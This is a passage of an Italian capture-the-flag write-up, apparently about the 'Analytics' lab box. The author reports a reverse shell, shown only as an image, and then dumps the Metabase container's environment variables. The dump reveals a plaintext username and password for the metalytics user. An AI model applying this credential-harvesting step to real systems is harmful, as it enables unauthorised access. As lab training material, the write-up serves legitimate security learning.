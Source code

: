 ```text
```

Ottengo la seguente reverse-shell:

<p align="center">
  <img src="/Immagini/Linux-Box/Analytics/analytics-4.png" />
</p>

Visualizzando il contenuto delle variabili di ambiente, scopro username e password dell'utente _metalytics_:

```text
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=7a9ce06949c1
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
```
